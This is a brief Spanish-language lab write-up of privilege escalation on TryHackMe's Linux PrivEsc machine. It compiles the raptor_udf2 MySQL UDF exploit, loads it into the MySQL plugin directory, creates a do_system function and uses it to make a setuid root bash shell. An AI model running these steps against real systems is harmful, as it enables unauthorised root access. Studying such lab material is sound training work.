 # Service Exploit

Una de las formas que se puede escalar privilegios es ver que servicios corre en el sistema ,muchas veces estos servicios tienen  privilegios altos o vulnerabilidades que nos podría ayudar a escalar privilegio en un sistema.

En la maquina de linuxprivesc en tryhackme tiene MySQL a traves de ese servicio se puede realizar la escalda utilizando un exploit conocido ,llamado MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2):

{% embed url="https://www.exploit-db.com/exploits/1518" %}

Pasos de para escalar privilegios con MySQL.

1. Compilar el exploit:

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

1. Conectarse al servidor:

```
mysql -u root -p
```

1. Ejecutar los comandos en MySQL y crear User Defined Function (UDF) "do\_system"

`use mysql;`&#x20;

`reate table foo(line blob);`&#x20;

`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`&#x20;

`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`&#x20;

`create function do_system returns integer soname 'raptor_udf2.so';`&#x20;

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

`exit`

1. Cuando relizas los pasos anteriores salis de mysql y ejecutar los siguientes comandos

`/tmp/rootbash -p`&#x20;

Esto es un ejemplo de la maquina de como se puede utilizar un servicio para escalar privilegios.

[TryHackMe | Linux PrivEsc](https://tryhackme.com/r/room/linuxprivesc)
